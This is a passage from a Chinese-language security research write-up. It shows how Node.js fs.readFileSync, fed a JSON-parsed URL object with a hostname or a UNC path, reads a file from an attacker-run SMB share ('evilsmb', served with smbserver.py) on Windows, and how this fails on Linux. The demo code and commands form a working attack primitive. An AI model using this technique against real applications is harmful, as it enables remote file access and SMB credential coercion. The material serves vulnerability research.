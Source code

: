 ```bash
python3 smbserver.py evilsmb `pwd` -smb2support    
```

Windows成功读取SMB文件
----------------

Windwos本地的测试demo:

```javascript
const fs = require("fs");

var file = '{' +
    '\t"protocol":"file:",' +
    '\t"href":"1",' +
    '\t"origin":"1",' +
    '\t"pathname":"/evilsmb/flag",' +
    '\t"hostname":"192.168.92.128"' +
    '\t}';
console.log("String Test::",fs.readFileSync("\\\\192.168.92.128/evilsmb/flag").toString())
console.log("URL Test::",fs.readFileSync(JSON.parse(file)).toString())

```

![image-20221031223832400](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-dfa3e273d21c8b5feb4b1529a70b671079cf2135.png)

然后Windwos本地运行demo可以看到两种方式都直接读取到了flag测试文件

![image-20221031223223341](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8bb1dbbfaea72e103fb601fb9ecd9fd0588b2543.png)

这里的`String`指定就不多说了，

`URI` 类型读取的文件路径为`\\\\${domainToUnicode(hostname)}${pathname}`, 其中的`hostname`和`pathname`分别就是json对象中的同名参数, Windwos中只要定义了hostname都会通过这种拼接方式获取文件读取路径

**Linux的差异**
------------

然而之前在**`Windwos与Linux获取文件名函数的差异`**部分就有讲过它们之间的差异, Linux中的URL对象是不允许定义`hostname`的,否则直接就抛出Error了, 而另外我们通过`String`类型参数直接指定SMB文件路径也还是失败了

```javascript
const fs = require("fs");  

var file = '{' +  
    '\\t"protocol":"file:",' +  
    '\\t"href":"1",' +  
    '\\t"origin":"1",' +  
    '\\t"pathname":"/evilsmb/flag",' +  
    '\\t"hostname":"192.168.92.128"' +  
    '\\t}';  
try {  
    console.log("URL Test::",fs.readFileSync(JSON.parse(file)).toString())  
}catch (e) {  
    console.log("URL Test::ERROR")  
    console.log(e)  
}  

try {  
    console.log("String Test::",fs.readFileSync("//192.168.92.128/evilsmb/flag").toString())  
}catch (e) {  
    console.log("String1 Test::ERROR")  
    console.log(e)  
}  

try {  
    console.log("String Test::",fs.readFileSync("\\\\\\\\192.168.92.128\\\\evilsmb\\\\flag").toString())  
```